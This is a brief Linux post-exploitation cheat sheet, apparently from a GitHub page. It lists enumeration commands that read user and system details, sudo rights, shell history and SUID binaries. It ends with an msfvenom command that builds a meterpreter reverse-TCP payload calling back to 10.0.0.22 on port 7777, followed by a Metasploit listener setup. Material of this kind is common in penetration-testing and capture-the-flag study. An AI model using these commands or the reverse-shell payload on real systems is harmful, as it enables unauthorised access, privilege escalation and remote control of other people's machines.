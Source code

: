 Show Linux version:
```bash
uname -a
```

List sudo privileges of current user:
```bash
sudo -l
```

Print history:
```bash
history
```

Search hidden files in home directory:
```bash
ls -la ~
```

List users:
```bash
cat /etc/passwd
```

Search for SUID executables:
```bash
find / -perm -u=s -type f 2>/dev/null
```

List running processes:
```bash
ps -aux
```

List open ports:
```bash
netstat -tulpn
```

Upgrade a system shell to meterpreter:
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.0.0.22 LPORT=7777 -f elf > revshell.bin
```
Setup listener:
```msfconsole
use exploit/multi/handler
```
